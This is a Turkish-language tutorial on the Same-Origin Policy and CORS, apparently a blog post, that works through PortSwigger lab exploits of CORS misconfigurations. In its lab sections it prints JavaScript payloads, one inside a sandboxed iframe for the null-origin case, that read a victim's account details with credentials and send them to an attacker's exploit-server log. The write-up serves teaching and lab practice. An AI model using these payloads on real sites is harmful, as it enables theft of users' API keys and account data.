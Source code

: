 # SOP ve CORS

Bu yazıda kullanıcıların güvenliklerini sağlamak için web tarayıcıları tarafından geliştirilen <b>SOP (Same-Origin Policy)</b> ve <b>CORS (Cross-Origin Resource Sharing)</b> konusundan bahsedeceğiz.

<figure><img src="../assets/sopCORS/sopCors.svg"></figure>

## SOP Nedir?

SOP kısıtlayıcı bir güvenlik mekanizmasıdır. Bir web sitesinin başka bir kaynaktan veri çekmesini engeller. SOP modern tarayıcılar tarafından kullanılan bir güvenlik mekanizmasıdır. Bir web sitesinin sadece kendisiyle aynı kaynaktan gelen verilere erişmesine izin veren bir sistemdir. 
Web sitesi hedef sisteme istek atar, verileri alır ama dönen cevabı okuyamaz.

Bir verinin aynı kaynaktan olup olmadığını kontrol etmek için şu değerlere bakılır:

- Protokol (http, https)

- Alan adı 

- Port

Aynı kaynaktan kelimesini daha iyi açıklamak için örnek vermek istiyorum. Web sitemizin ismi ``http://yavuzkuk.com`` olsun. Bu web sitesinin SOP kuralları çerçevesinde hangi kaynaklardan veri alabileceğine bakacağız.

- ``http://yavuzkuk.com/login`` Başarılı istek
- ``http://yavuzkuk.com``       Başarılı istek
- ``https://yavuzkuk.com``      Protokol ve port farklı
- ``http://admin.yavuzkuk.com`` Farklı domain

Kısaca özetlemek gerekirse SOP, web sitelerinin farklı kaynaklardan veri almasını ve kullanmasını kısıtlayan bir güvenlik mekanizmasıdır. Ancak günümüzde farklı kaynaklar arasında veri alışverişi kaçınılmaz hale geldiğinden, SOP'un sınırlarını esneten ve bu duruma çözüm sağlayan CORS mekanizması devreye girmiştir.

***
## CORS Nedir?

CORS, bir web sitesinin farklı bir domain (kaynak) üzerinden veri almasını veya paylaşmasını sağlayan bir mekanizmadır. Bu, tarayıcıların varsayılan Same-Origin Policy (SOP) kısıtlamasını kontrollü bir şekilde gevşetir.

SOP, bir web sitesinin yalnızca kendi kaynağından veri almasına izin verirken, CORS, bu kısıtlamayı HTTP başlıkları aracılığıyla düzenler.


CORS başlıklarından en önemlisi <b>Access-Control-Allow-Origin</b> başlığıdır. Bu başlık, sunucunun hangi kaynaklardan (origin) gelen isteklerin yanıtlanmasına izin verdiğini belirtir.

*** 
Örnek üzerinden daha iyi anlaşılacaktır. Bir web sitesi (example.com) başka bir kaynaktan (api.example.com) veri almak istiyor ve bunun için bir istek oluşturuyor. 

```
// İstek
GET /data HTTP/1.1
Host: api.example.com
Origin: https://normal-website.com
```

```
// Cevap
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: https://normal-website.com
```

Dönen cevaba baktığımızda izin verilen kaynakları belirtmek için `Access-Control-Allow-Origin` header başlığı kullanılmıştır. 

Bu işlemler sonucunda tarayıcı istekte bulunan origin değeriyle Access-Control-Allow-Origin değerini karşılaştırır. Eğer eşleşirse, tarayıcı isteği kabul eder ve yanıtı kullanır. Eşleşme yoksa yanıt engellenir.

Access-Control-Allow-Origin değerinin alabileceği üç farklı değer vardır. 
- Tek origin
- \* (Wildcard)
- `null`

### Access-Control-Allow-Credentials

Access-Control-Allow-Credentials: true başlığı, bir web sunucusunun, cross-origin (farklı kaynaklı) isteklerde kimlik doğrulama bilgileri (örneğin çerezler veya yetkilendirme başlıkları) ile gelen isteklere izin verdiğini belirtir.

Eğer istemci, isteği çerez veya kimlik doğrulama bilgileri ile gönderiyorsa, ve sunucu Access-Control-Allow-Credentials: true başlığını yanıtına eklemişse, tarayıcı yanıtı kabul eder ve verileri okur.

`Access-Control-Allow-Origin: *` ve `Access-Control-Allow-Credentials: true` değerleri aynı anda kullanılamaz. Kimlik doğrulama vb. işlemler gerçekleşeceği için bütün originlerden gelen istekler kabul edilemez.

## Pre-flight checks

CORS sadece basit veri erişimini kontrol etmekle kalmaz; bazı durumlarda, daha karmaşık güvenlik önlemleri alır. Bu durumlar için pre-flight checks (ön kontrol denetimleri) devreye girer. Pre-flight check, aslında bir isteğin sunucuya gitmeden önce, tarayıcı tarafından yapılan bir ön kontrol adımıdır. Bu adım, özellikle non-standard HTTP metodları (örneğin, PUT, DELETE gibi) ve özel başlıklar kullanıldığında gerçekleşir.


Pre-flight check, bir cross-origin isteği yapılmadan önce, tarayıcı tarafından gönderilen OPTIONS metoduyla yapılan bir ön denetimdir. Bu işlem, tarayıcının, sunucudan istek için gerekli izinleri alıp almadığını kontrol etmesini sağlar. Eğer sunucu, gelen isteğe izin veriyorsa, asıl istek gerçekleşir. Aksi takdirde, istek reddedilir.

*** 

Genel olarak SOP ve CORS konularını anladıysak, bu alanda yanlış yapılandırmalar nedeniyle ortaya çıkan zafiyetlere bir göz atalım.

## [Server-generated ACAO header from client Origin header](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

Daha önce `Access-Control-Allow-Origin` başlığından bahsetmiştik. Bu başlık, hangi `Origin` değerlerine sahip web sitelerinin verilere erişebileceğini belirlemek için kullanılır.

Normal şartlarda şöyle bir durum gerçekleşiyordu:

```
# İstek
GET / HTTP/2
Host: example.net
Origin:example.net
```

```
# Cevap
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Access-Control-Allow-Origin: example.net
Content-Length: 11016
```
İstekte gelen `Origin` değeri ile `Access-Control-Allow-Origin` değerleri eşleşmezse tarayıcı verilere ulaşamaz. Normal şartlarda `Access-Control-Allow-Origin` başlık değeri için çeşitli domain adresleri tanımlanır bu sayede veriler gerektiği yerler güvenle ulaştırılmış olunur.

Bazı senaryolarda yanlış konfigürasyon sebebiyle kullanıcı tarafından gönderilen `Origin` başlık değeri otomatik olarka `Access-Control-Allow-Origin` başlık değeri olarak atanır.



<figure><img src="../assets/sopCORS/accessControlAllowOrigin.jpg.jpg"></figure>

Cevabımıza baktığımızda girmiş olduğumuz `Origin` header değeri `Access-Control-Allow-Origin` header değeri olarak bize geri döndü. `Access-Control-Allow-Credentials: true` başlığı ise bize kullanıcı bilgilerinin döndüğünü belirtmek için bulunuyor.

Bu soruda istenen şey admin kullanıcısının API keyini bulmamız isteniyor. Admin hesabının API key değerini almak için yapmamız gereken şey kullanıcıyı bir linke tıklamasını sağlamak vb. ve bu bilgileri alıp bize göndermesini sağlamak olacaktır.

Bunun için exploit serverı açıp şu kodu kaydediyoruz. 

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','......web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

Bu kodu açıklamak gerekirse kullanıcı bir phishing yöntemiyle bu kodu görüntüler ve tarayıcısında çalıştırırsa az önce gördüğümüz bilgileri kendi bilgisayarına çekmiş olur. Ardından `reqListener` fonksiyonuyla bu verileri /log dizinine göndermiş olur bu sayede admin kullanıcısının API key değerine ulaşmış oluyoruz.

## [Null Origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

Bazı web siteleri `Origin` başlık değeri olarak `null` değerleri kabul edebilir. 

`Origin: null` şu durumlarda oluşur:

- Cross-Origin Redirects: Farklı bir domaine yönlendirme sırasında.
- Sandboxed Requests: iframe içinde sandbox kullanıldığında.
- file:// Protokolü: Yerel dosya sistemi üzerinden yapılan isteklerde.
- Data URI: data: protokolüyle yüklenen içeriklerde.
- Tanımsız Kaynaklar: Güvenli bir Origin belirlenemediğinde.

<figure><img src="../assets/sopCORS/corsNull.png"></figure>

`Origin` başlık değerini rastgele bir değer girdiğimizde `Access-Control-Allow-Origin` header değeri karşımıza çıkmıyor ama `Origin` başlık değerini `null` yaptığımızda cevapta karşımıza çıkıyor.

Bizim burada istediğimiz şey kullanıcının bu isteği gerçekleştirmesi ve sonrasında dönen cevabı bize iletmesi olacaktır. Bunun için bir JavaScript kodu yazmamız gerekiyor.

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','....web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='.....exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

Bu kodu bir şekilde kullanıcıya ulaştırdığımızda kullanıcının hesap bilgilerinin döndüğü isteği kendi kontrolümüzde olan bir sunucuya göndermiş oluyoruz.

## Exploiting XSS via CORS trust relationships

Bazı durumlarda bir web sitesi `Access-Control-Allow-Origin` değeri olarak kendi subdomain adreslerini kabul eder.

Bu subdomain adreslerinden birinde XSS zafiyeti olduğunu düşünün istediğimiz gibi JavaScript kodu çalıştırabiliyoruz. 

Bizim burada yapacağımız şey subdomain adresinden, ana domaine istek göndermek ve subdomain adresine çektiğimiz API bilgilerini sonrasında kendi kontrolümüzde olan bir yere aktarmak olacaktır.